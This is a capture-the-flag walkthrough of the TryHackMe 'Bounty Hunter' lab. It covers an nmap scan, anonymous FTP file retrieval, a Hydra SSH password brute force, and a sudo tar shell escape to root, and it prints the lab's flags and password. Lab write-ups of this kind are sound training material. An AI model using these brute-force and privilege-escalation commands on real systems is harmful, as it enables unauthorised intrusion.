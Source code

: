 # Bounty Hunter Writeup (Easy)
### TryHackMe 
### Ean Dudley, 12/20/2021

### Task 1: Deploy The Machine 
Connect to the machine via the attack box or openvpn 

### Task 2: Find Open Ports 
I used NMAP to find open ports using the following syntax: 

``` bash
sudo nmap -sC -sV [TargetIP]
``` 

I got the following return: 

``` bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:11 EST
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.94 seconds
```

Lets add the the flag ``` -Pn ``` and see if we can find any open ports. 
``` bash 
sudo nmap -sC -sV -Pn [TargetIP] 
```

Using the -Pn flag was successful and the following output was given: 
```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-12-20 13:12 EST
Nmap scan report for 10.10.79.132
Host is up (0.14s latency).
Not shown: 967 filtered ports, 30 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
|_-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.6.77.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.40 seconds
```

There seem to be three ports running services that may be helpful: 
	Port 21 FTP 
	Port 22: SSH
	Port 80: TCP 

FTP also has anonymous login available to access two files: 
	- task.txt
	- locks.txt 
	
### Task 3: Who wrote the task list? 

FTP has a file called task.txt and anonymous access. Lets login to FTP and see if we can find out who wrote the tasklist. 

``` bash 
ftp [targetIP]
``` 

After executing this command you should get the following output, and be prompted for the name (See line 3 of the following output).  Enter: 'anonymous' to take advantage of the FTP anonymous login. 

```bash
Connected to 10.10.79.132.
220 (vsFTPd 3.0.3)
Name (10.10.79.132:kali): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

Now you should see your prompt change to ```ftp>``` and you can begin using FTP to read the files. Lets get both files onto our local machine and then read them. 

``` bash
ftp> get 
(remote-file) task.txt
(local-file) task.txt 

ftp> get 
(remote-file) lock.txt
(local-file) lock.txt
```

Back on our local machine lets read these files, starting with task.txt. 

``` bash
cat task.txt

1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We get our **Answer** for task 3: **lin**

### Task 4:  What service can you bruteforce with the text file found?

We can bruteforce** SSH** using Hydra since we have a username. Conveniently, the lock.txt file has a list of what appears to be passwords so we can run a wordlist based attack on SSH to login. 

### Task 5: What is the users password? 

Lets use **Hydra** as we talked about before to run an attack on SSH using the username lin. 

``` bash 
hydra -l lin -P locks.txt 10.10.79.132 -t 4 ssh
``` 

The ``` -l ``` flag specifies the username and the ``` -P ``` flag specifies the password list. The ``` -t 	``` flag is used to specifies the number of thread to use for the attack. Hydra recommends 4 threads for SSH. 

After running this command we should get the following output: 
``` bash 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-12-20 13:21:27
[DATA] max 4 tasks per 1 server, overall 4 tasks, 26 login tries (l:1/p:26), ~7 tries per task
[DATA] attacking ssh://10.10.79.132:22/
[22][ssh] host: 10.10.79.132   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-12-20 13:21:37
``` 

We see that our password is: **RedDr4gonSynd1cat3**. 

### Task 6: user.txt 

Login to ssh using ``` lin@[targetIP]``` and when prompted for the password use the answer from question 4. 

After loging into the system use cat to read the user.txt file: 
``` bash 
cat user.txt 
THM{CR1M3_SyNd1C4T3}
```

**Flag: THM{CR1M3_SyNd1C4T3}**

### Task 7: root.txt 

Now that we have an inital foothold, lets try to gain root access. To start lets see if we have authroization to run anything as root that we may be able to exploit: 

```bash
sudo -l 
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar

``` 

We see that we have authroization to run ``` tar ``` as root. We can exploit this by using the following command: 

``` bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```


*If you are unsure how to exploit tar, there are a lot of good resources online. This one is my favourite: https://gtfobins.github.io/gtfobins/tar/*

We should not be able to pop a shell with root access: 

``` bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
cat /root/root.txt
THM{80UN7Y_h4cK3r}
``` 

We get our **root flag: THM{80UN7Y_h4cK3r}**

### Summary 
We initally scan this machine using nmap and have to force ports to respond using the  -Pn option. From NMAP we see that we can login to FTP anonymous access in order to read a tasklist and a password list. We can then use that passowrd list and the username found in the tasklist to brute-force an attack on SSH using Hydra. Using the login credentials to SSH found by Hydra, we can login and get our inital access. Then we can use sudo on the target machine to find if there are any vulnerable commands we can utilize to get root access. Sudo shows that tar is able to be executed at a super user level, and we are able to exploit tar to get root level access. 
